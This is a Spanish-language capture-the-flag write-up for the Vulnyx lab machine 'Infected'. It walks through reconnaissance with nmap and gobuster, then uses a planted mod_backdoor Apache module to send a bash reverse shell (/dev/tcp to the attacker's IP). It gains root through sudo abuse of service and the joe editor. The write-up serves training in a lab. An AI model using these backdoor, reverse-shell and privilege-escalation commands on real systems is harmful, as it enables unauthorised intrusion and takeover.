


# Infected

> 🧠 **Plataforma:** Vulnyx
>
> 💻 **Sistema operativo:** Linux
>
> 🎯 **Nivel:** Easy
>
> ✅ **Estado:** Done
>
> 📘 **Curso eJPT:** yes
>
> 🗓️ **Fecha de creación:** 27 de abril de 2025 20:11
>
> 🌐 **IP:** `192.168.0.14`

---


## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Escanemos la red

```bash
sudo arp-scan -I eth0 --localnet 

Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)

192.168.0.14	08:00:27:7a:1e:e8	PCS Systemtechnik GmbH
```

Identificamos el entorno mediante la MAC 08:00.. que corresponde al fabricante VirtualBox

Identificamos sistema y vemos que por la respuesta del ttl del ping se trata de una maquina Linux

```bash
ping -c 2 192.168.0.14                                                                                                      1 ✘  20:16:35  
PING 192.168.0.14 (192.168.0.14) 56(84) bytes of data.
64 bytes from 192.168.0.14: icmp_seq=1 ttl=64 time=0.786 ms
64 bytes from 192.168.0.14: icmp_seq=2 ttl=64 time=0.326 ms

```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 192.168.0.14 -oG targeted

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:7A:1E:E8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
nmap -p22,80 -sCV 192.168.0.14 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:7A:1E:E8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22 Open SSH 9.2p1
    - Apache httpd 2.4.57

Enumeramos servicio web 

Mediante fuzzing, buscamos directorios de la web

```bash
gobuster dir -u http://192.168.0.14 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt

Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/info.php             (Status: 200) [Size: 114390]
```

Enontramos un sitio llamado “info.php” que muestra:



Observamos que el nombre del sistema es Linux infected. Revisando los modulos cargados aparece uno con nombre : mod_backdoor



## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Mood_backdoor

```bash

```

Si buscamos información acerca de este módulo, encontramos que el sistema está infectado con una backdoor que nos permite ejecutar comandos mediante:

```bash
curl -sX GET -H "Backdoor: command" "http://Target_IP"

```

Por lo tanto, lo que vamos a hacer es intentar enviar una revershell para obtener acceso remoto

```bash
# Local Machine
nc -lvnp 4444

ReverShell: bash -c '/bin/bash -i >& /dev/tcp/192.168.0.115/4444 0>&1

curl -sX GET -H "Backdoor: bash -c '/bin/bash -i >& /dev/tcp/192.168.0.115/4444 0>&1'" "http://192.168.0.14"

listening on [any] 4444 ...
connect to [192.168.0.115] from (UNKNOWN) [192.168.0.14] 41110
bash: cannot set terminal process group (452): Inappropriate ioctl for device
bash: no job control in this shell
www-data@infected:/$ 

```

Hacemos el tratamiento de la tty

```bash
script -c bash /dev/null
ctr+z

stty raw echo; fg
reset xterm

www-data@infected:/$ export TERM=XTERM
www-data@infected:/$ export SHELL=BASH

```

### Explotación posterior

Una vez dentro del sistema, vamos a listar que usuarios hay 

```bash
www-data@infected:/home$ cat /etc/passwd | grep -e "/bin/bash"
root:x:0:0:root:/root:/bin/bash
laurent:x:1000:1000:laurent:/home/laurent:/bin/bash
```

Buscamos permisos con SUID

```bash
www-data@infected:/home$ sudo -l
Matching Defaults entries for www-data on infected:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on infected:
    (laurent) NOPASSWD: /usr/sbin/service
www-data@infected:/home$ 

```

### Escalada de privilegios

Vemos que podemos usar el binario service como el usuario laurent, sin proporcionar credenciales. Lo usamos para migrar de usuario

```bash
 www-data@infected:/usr/sbin$ sudo -u laurent service ../../bin/sh
$ whoami
laurent
$ script -c bash /dev/null
laurent@infected:/$ 
laurent@infected:/home/laurent$ cat user.txt 
6b**************************c
```

Seguimos con la escalada de privilegios

```bash
laurent@infected:/$ sudo -l
Matching Defaults entries for laurent on infected:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User laurent may run the following commands on infected:
    (root) NOPASSWD: /usr/bin/joe

```

Vemos que podemos usar el binario joe para obtener una shell como usuario root mediante:

```bash

./joe
^K!/bin/sh

laurent@infected:/home/laurent$ sudo /usr/bin/joe
cntl+K
!
Program to run: /bin/bash
root@infected:/# whoami
root
root@infected:/# 
root@infected:~# cat root.txt 
ff*****************3dc
```

## Conclusión

<aside>
💡 En esta sección, debes proporcionar un resumen de la máquina para cuando tengas que volver a ella, puedas saber conocer de forma rápida de que se trataba

</aside>